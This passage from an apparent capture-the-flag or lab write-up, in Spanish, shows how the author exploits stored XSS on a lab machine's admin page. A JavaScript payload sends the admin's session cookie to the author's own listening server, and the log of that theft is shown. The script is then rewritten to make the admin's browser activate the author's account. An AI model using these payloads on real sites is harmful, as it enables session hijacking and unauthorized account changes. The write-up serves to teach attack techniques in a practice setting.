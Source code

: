 Cada que recargo la pagina hace una peticion get pero yo solo recargue la pagina 1 vez. Las otras peticiones las esta haciendo alguien mas. Quiza el administrador o alguien que esta viendo los usuarios.

Aprovechando que hay alguien recargando la pagina de /admin/admin.php vamos intentar a robarle las cookies.
Para esto me creo una xss.js osea con el mismo nombre que puse el archivo antes.

- xss.js
```
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.4/?cookie=' + document.cookie);
request.send()
```

Lo guardamos y nos montamos el servidor con python de nuevo

Ahora tenemos la cookie de una sesion
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.18 - - [27/Feb/2023 13:35:33] "GET /xss.js HTTP/1.1" 200 -
10.0.2.18 - - [27/Feb/2023 13:35:33] "GET /?cookie=PHPSESSID=doiro4jbnco1s759jl4chimtu0 HTTP/1.1" 200 -
```

Cambiamos el valor en inspeccionar por la nueva cookie que nos han proporcionado

![](img/expenses5.png)

Lamentablemente nos suelta un mensaje de 'Sorry, as an administrator, you can be authenticated only once a time.'

En la pagina puedo darle click al status de mi cuenta y me lleva  a esta URL ``http://10.0.2.18/admin/admin.php?id=11&status=active``

Es como si estuvieras intentando activar una cuenta, Entonces si se la mandamos al administrador mediante nuestro xss.js en teoria deberia activarnos la cuenta.

Modificamos el script y nos montamos el servidor con python

```
❯ cat xss.js                         
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.18/admin/admin.php?id=11&status=active');
request.send()
```
Ahora recargamos la pagina de /admin.php y nos dice que nuestra cuenta de Samuel esta activa.

##-------------------------------------------------------------
Por temas de mala configuracion perdi la maquina y tuve que volver a instalarla. 
A partir de ahora la ip victima sera la 10.0.2.19
Sin mas que decir continuamos :)
##-------------------------------------------------------------
